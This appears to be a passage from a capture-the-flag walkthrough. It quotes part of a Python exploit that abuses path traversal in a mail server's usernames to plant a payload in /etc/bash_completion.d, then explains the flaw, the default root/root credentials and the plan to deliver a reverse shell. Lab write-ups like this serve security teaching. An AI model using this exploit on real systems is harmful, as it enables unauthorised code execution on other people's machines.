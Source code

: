 ```text
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."
```

After reviewing the script, I made a few notes:

1. This is an authenticated exploit, so we need credentials. The exploit uses the default credentials root/root that are probably shipped with the software. We’ll have to connect to the server to find out if these credentials are valid before we run this exploit.
2. When running the exploit we have to pass the IP address as an argument. The script by default connects to port 4555 which is good since our server is running on that port.
3. The script first creates a user with username “../../../../../../../../etc/bash\_completion.d” and password “exploit”. It then connects to the SMTP server and sends that user a payload. Right off the bat, this doesn’t make much sense, so we’ll have to research the vulnerability.

After a bit of research we find that the vulnerability is in the _adduser_ functionality. When a new user is added, the server creates a new subdirectory to store incoming and outgoing emails for that user. However, the username field is not properly validated. Therefore, when we’re creating a user with the username “../../../../../../../../etc/bash\_completion.d”, any mail that gets sent to that user will be stored in that directory path. Why is that dangerous? Long story short, anything under the directory /etc/bash\_completion.d is automatically loaded by Bash for all users! To learn more about bash completion scripts, refer to this [article](https://iridakos.com/programming/2018/03/01/bash-programmable-completion-tutorial).

Therefore, if we create a user with a username that leads to the /etc/bash\_completion.d directory, when we send an email to that user, our email gets saved in the bash\_completion.d directory and the content of our email is automatically loaded by Bash when any user logs into the machine. So if we include a reverse shell in the email, all we have to do is wait for a single user to log in and we have access to the machine!

Now that we’ve done our research, we’re ready to move on to the exploitation phase.
